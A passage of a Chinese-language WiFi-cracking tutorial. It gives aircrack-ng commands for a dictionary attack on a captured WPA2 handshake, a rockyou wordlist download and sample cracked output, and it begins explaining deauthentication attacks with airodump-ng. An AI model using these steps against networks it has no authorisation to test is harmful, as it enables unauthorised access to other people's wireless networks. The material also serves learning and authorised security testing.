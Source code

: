 最后两块被 `:` 分隔开来，分别是网络名称和密码。

如果你想直接使用 `hashcat` 而不是 `naive-hashcat` 的话请参考[这个页面](https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2)。

### 利用 Aircrack-ng 破解

Aircrack-ng 可以用于在你的 CPU 上运行来进行非常基本的字典攻击。在你运行攻击之前，你需要一个单词表。我推荐使用非常著名的 rockyou 字典文件：

```bash
# 下载 134MB rockyou 字典文件
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

注意，如果网络密码不再这个单词文件话，你将不能破解密码。

```bash
# -a2 指定 WPA2，-b 是 BSSID，-w 是字典文件
aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w rockyou.txt hackme.cap
```

如果密码被破解了，你将会在终端看到一个 `KEY FOUND!` 消息，后面跟着的文本就是网络密码。

```shell
                                 Aircrack-ng 1.2 beta3


                   [00:01:49] 111040 keys tested (1017.96 k/s)


                         KEY FOUND! [ hacktheplanet ]


      Master Key     : A1 90 16 62 6C B3 E2 DB BB D1 79 CB 75 D2 C7 89 
                       59 4A C9 04 67 10 66 C5 97 83 7B C3 DA 6C 29 2E 

      Transient Key  : CB 5A F8 CE 62 B2 1B F7 6F 50 C0 25 62 E9 5D 71 
                       2F 1A 26 34 DD 9F 61 F7 68 85 CC BC 0F 88 88 73 
                       6F CB 3F CC 06 0C 06 08 ED DF EC 3C D3 42 5D 78 
                       8D EC 0C EA D2 BC 8A E2 D7 D3 A2 7F 9F 1A D3 21 

      EAPOL HMAC     : 9F C6 51 57 D3 FA 99 11 9D 17 12 BA B6 DB 06 B4 
```

# Deauth Attack

Deauth 攻击会将伪造的身份验证数据包从您的计算机发送到连接到您尝试破解的网络的客户端。 这些数据包包括伪造的 “发件人” 地址，使得它们像客户端那样从接入点本身发送出去。 收到这样的数据包后，大多数客户端断开与网络的连接，并立即重新连接，如果您正在使用`airodump-ng`进行侦听，就能捕获到 4-way handshake。

使用 `airodump-ng` 监视特定接入点（使用 `-c channel --bssid MAC`），直到看到客户端（`STATION`）连接。 连接的客户端看起来像这样，`64：BC：0C：48：97：F7` 是客户端 MAC。

```shell
 CH  6 ][ Elapsed: 2 mins ][ 2017-07-23 19:15 ]                                         

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 9C:5C:8E:C9:AB:C0  -19  75     1043      144   10   6  54e  WPA2 CCMP   PSK  ASUS

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe

 9C:5C:8E:C9:AB:C0  64:BC:0C:48:97:F7  -37    1e- 1e     4     6479  ASUS
```
